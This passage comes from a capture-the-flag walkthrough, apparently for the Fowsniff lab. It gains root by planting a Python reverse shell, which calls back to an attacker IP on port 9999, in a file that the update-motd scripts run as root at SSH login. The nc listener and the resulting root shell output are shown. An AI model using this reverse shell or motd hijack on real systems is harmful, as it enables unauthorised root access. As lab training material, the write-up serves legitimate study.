 ```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.48.138",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### No answer needed

&nbsp;

### If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!
- Let's start a `nc` listener on port 9999.
```
$ nc -nlvp 9999
listening on [any] 9999 ...
```
- Let's login again using SSH.
```
ssh baksteen@10.10.251.22
```
- If we check back on our listener, we will find that we have a reverse shell as `root`.
```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.251.22] 58062
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
### No answer needed

&nbsp;

### If you are **really really** stuck, there is a brilliant walkthrough here: [https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/](https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/) **[](https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/)**
### No answer needed
